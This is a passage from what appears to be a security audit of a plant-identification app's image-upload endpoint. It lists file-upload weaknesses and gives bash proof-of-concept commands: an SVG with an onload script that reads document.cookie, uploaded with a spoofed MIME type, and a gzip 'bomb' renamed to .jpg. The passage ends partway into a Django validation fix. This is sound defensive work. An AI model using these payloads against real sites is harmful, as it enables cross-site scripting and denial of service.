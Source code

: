 3. **Potential Exploits:**
   - Upload HTML file with Content-Type: image/jpeg
   - Upload SVG with embedded JavaScript
   - Upload ZIP/RAR file disguised as image
   - Upload malformed image to trigger PIL vulnerabilities

#### Exploitation Scenario

**Attack Vector: Malicious SVG Upload**
```bash
# Create malicious SVG with XSS
cat > malicious.svg <<EOF
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)">
  <image href="data:image/png;base64,iVBORw0KGgoAAAANSUh..." />
</svg>
EOF

# Upload with spoofed MIME type
curl -X POST http://localhost:8000/api/plant-identification/identify/ \
     -H "Content-Type: multipart/form-data" \
     -F "image=@malicious.svg;type=image/jpeg"

# Backend accepts file as image/jpeg
# If response includes SVG data, XSS possible when displayed
```

**Attack Vector: ZIP Bomb**
```bash
# Create ZIP bomb (42KB compressed → 4.5GB uncompressed)
dd if=/dev/zero bs=1M count=4500 | gzip > bomb.gz
mv bomb.gz bomb.jpg

# Upload with image MIME type
curl -X POST http://localhost:8000/api/plant-identification/identify/ \
     -F "image=@bomb.jpg;type=image/jpeg"

# If PIL attempts to decompress, memory exhaustion occurs
```

#### Impact
- **Availability:** Memory exhaustion from ZIP bombs or oversized files
- **Integrity:** Processing of non-image files
- **XSS Risk:** If SVG files are stored and served without sanitization

#### Remediation

**Backend: Magic Byte Validation**
```python
# /existing_implementation/backend/apps/plant_identification/api/simple_views.py

import imghdr
from PIL import Image
import io

@api_view(['POST'])
@permission_classes([IsAuthenticated])
@parser_classes([MultiPartParser, FormParser])
@ratelimit(key='user', rate='20/h', method='POST')
@transaction.atomic
def identify_plant(request):
    """
    Plant identification endpoint with robust image validation.
    """
    try:
        # Validate image file presence
        if 'image' not in request.FILES:
```